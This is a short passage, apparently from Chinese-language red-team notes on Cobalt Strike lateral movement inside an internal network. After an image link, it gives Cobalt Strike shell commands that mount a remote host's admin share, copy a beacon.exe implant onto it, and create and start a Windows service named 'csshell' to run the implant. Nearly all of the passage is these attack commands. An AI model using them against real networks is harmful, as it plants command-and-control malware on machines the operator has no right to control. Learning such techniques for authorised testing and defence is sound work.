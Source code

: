 [![](assets/1702372940-36429986719db58d619d8f7b46e3f7fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/23.png)

之后可复制文件，创建启动服务命令上线CS

```bash
shell net use \\192.168.91.178\c$
shell copy c:\beacon.exe \\192.168.91.178\c$
shell sc \\TALE2B52 create csshell binpath= "c:\beacon.exe"
shell sc \\TALE2B52 start csshell
```
